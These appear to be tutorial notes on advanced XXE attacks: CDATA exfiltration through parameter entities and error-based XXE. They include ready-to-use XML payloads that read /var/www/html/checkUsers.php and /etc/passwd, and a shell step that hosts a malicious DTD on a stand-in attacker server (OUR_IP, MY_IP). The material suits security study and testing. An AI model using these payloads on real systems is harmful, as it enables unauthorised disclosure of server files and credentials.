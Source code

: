 # Advanced File Disclosure
***
#### As some file formats may not be readable through basic XXE, or the web application  may not output any input values in some instances, we may try to force it through errors.

### Advanced Exfiltration with CDATA
#### While we can use PHP filters to encode PHP source files, we could also wrap the content of the external file reference with a `CDATA` tag (to tell the XML parser that the data should not be treated as XML but instead as literal test) (e.g. `<![CDATA[FILE_CONTENT]]>`) to extract any kind of data for any web application backend.
#### One way to resolve this issue would be to define a `begin` internal entity with `<![CDATA[` , an end internal entity with `]]>` , and then place the external entity file in between:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/checkUsers.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
#### Then if we reference the `&joined;` entity , it should contain the escaped data, however this won't work , since XML prevents joining internal and external entities.
#### In order to bypass this limitation , we can use `XML Parameter Entities` , these are a special type of entity that starts with a `%`character and can only be used within the DTD. This would allow us to reference the parameter entities from an external source and then all of them would be considered as external and can be joined:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

#### We first write to a .dtd file on our server the xml code above and then start an HTTP server
```shell
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
```
#### After we can reference the external entity above (`xxe.dtd`) and then print the `&joined;` entity defined above:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/checkUsers.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```


#### **NOTE:** In certain cases we may  not be able to read some files, such as index.php, because the web server would be preventing a DoS attack caused by file/entity self-reference (i.e., XL entity reference loop).

### Error based XXE
#### When a web application might not write any output, we would be blind to the XML output and thus not able to exfiltrate the file content using the previous methods.
#### However, if the web application displays runtime error (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.
* Firstly , we would try to send malformed XML data , and see if the web application displays any errors.
* Then we would host a DTD file containing the following payload:
  * ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
    ``` 
* In the above payload we defined the `file` entity and then joined it with an entity that does not exist. This will cause the web application to throw an error saying that this entity does not exist, with the `%file;`as part of the error.
* Finally, we would call our external DTD script, and then reference the error entity as follows:
 * ```xml
   <!DOCTYPE email [ 
   <!ENTITY % remote SYSTEM "http://MY_IP:1337/xxe.dtd">
   %remote;
   %error;
   ]>
   ```